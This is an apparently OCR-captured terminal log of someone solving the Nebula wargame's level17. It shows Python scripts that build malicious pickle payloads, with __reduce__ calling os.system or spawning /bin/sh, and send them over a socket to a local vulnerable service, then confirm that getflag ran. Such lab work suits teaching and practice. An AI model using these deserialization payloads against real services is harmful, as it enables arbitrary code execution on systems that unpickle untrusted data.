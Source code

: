 level17@nebula:~$ nano pickle2
level17@nebula:~$ nano /tmp/run.sh
level17@nebula:~$ chmod 777 /tmp/run.sh
level17@nebula:~$ cat /tmp/run.sh
getflag>out
level17@nebula:~$ python pickle2
Accepted connection from 127.0.0.1:58290
cposix
system
p0
(S'/tmp/run.sh'
p1
tp2
Rp3
.
level17@nebula:~$ cat /tmp/run.sh
getflag>out
level17@nebula:~$ nano pickle2
level17@nebula:~$ python pickle2 > pickled
level17@nebula:~$ cat pickle
import cPickle
import subprocess
import base64
import socket

class RunBinSh(object):
  def __init__ (self):
    self.cmd=subprocess.Popen("/bin/sh", shell=True)
  def __reduce__(self):
    return (self.__class__, (self.cmd, ))
line=cPickle.dumps(RunBinSh())
obj = cPickle.loads(line)
print line
#for i in obj:
#       print("why did you send me " + i + "?\n")

#skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
#skt.connect(('127.0.0.1', 10007))
#print skt.recv(100)
#skt.sendall(base64.b64encode(cPickle.dumps(RunBinSh())))
#print skt.recv(100)
level17@nebula:~$ cat pickled
cposix
system
p0
(S'/tmp/run.sh'
p1
tp2
Rp3
.
level17@nebula:~$ nc 127.0.0.1 10007 < pickled
Accepted connection from 127.0.0.1:58292
ls
^C
level17@nebula:~$ /tmp/run.sh
level17@nebula:~$ ls
out  pickle  pickle2  pickled  run.sh
level17@nebula:~$ cat out
getflag is executing on a non-flag account, this doesn't count
level17@nebula:~$ nano /tmp/run.sh
level17@nebula:~$ python pickle2 > pickled
level17@nebula:~$ cat /tmp/out
You have successfully executed getflag on a target account
level17@nebula:~$ cat pickled
cposix
system
p0
(S'/tmp/run.sh'
p1
tp2
Rp3
.
level17@nebula:~$ nc 127.0.0.1 10007 < pickled
Accepted connection from 127.0.0.1:58294^C
level17@nebula:~$ cat /tmp/out
You have successfully executed getflag on a target account
level17@nebula:~$ rm -f /tmp/out
rm: cannot remove `/tmp/out': Operation not permitted
level17@nebula:~$ cd /tmp/
level17@nebula:/tmp$ ll
total 8
drwxrwxrwt 6 root    root    160 2019-08-24 03:42 ./
drwxr-xr-x 1 root    root    220 2019-08-23 14:30 ../
drwxrwxrwt 2 root    root     40 2019-08-23 14:30 .ICE-unix/
-rw-r--r-- 1 flag17  flag17   59 2019-08-24 03:43 out
-rwxrwxrwx 1 level17 level17  19 2019-08-24 03:42 run.sh*
drwxrwxrwt 2 root    root     40 2019-08-23 14:30 VMwareDnD/
drwx------ 2 root    root    100 2019-08-23 14:30 vmware-root/
drwxrwxrwt 2 root    root     40 2019-08-23 14:30 .X11-unix/
level17@nebula:/tmp$ cd #
level17@nebula:~$ cat pickle2
#!/usr/bin/python

import pickle
import os
import socket
class Exploit(object):
  def __reduce__(self):
    return (os.system,(('/tmp/run.sh'),))
obj=Exploit()
line=pickle.dumps(obj)
HOST = "127.0.0.1"
PORT = 10007
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
s.connect((HOST,PORT))
s.recv(1024)
s.sendall(line)
#obj = cPickle.loads(line)
print line
level17@nebula:~$
